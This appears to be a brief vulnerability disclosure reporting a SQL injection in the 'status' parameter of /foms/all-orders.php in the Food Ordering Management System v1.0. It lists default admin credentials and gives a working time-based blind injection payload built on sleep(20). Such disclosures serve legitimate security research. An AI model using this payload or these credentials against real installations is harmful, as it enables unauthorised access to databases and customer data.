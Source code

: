 # Food Ordering Management System v1.0 by oretnom23 has SQL injection
BUG_Author: YorkLee

Login account: admin/admin123 (Super Admin account)

vendors:https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

Vulnerability File: /foms/all-orders.php

Vulnerability location: /foms/all-orders.php?status=Cancelled%20by%20Customer  // Leak place ---> status

Payload1: ?status=Cancelled by Customer'+(select*from(select(sleep(20)))a)+'






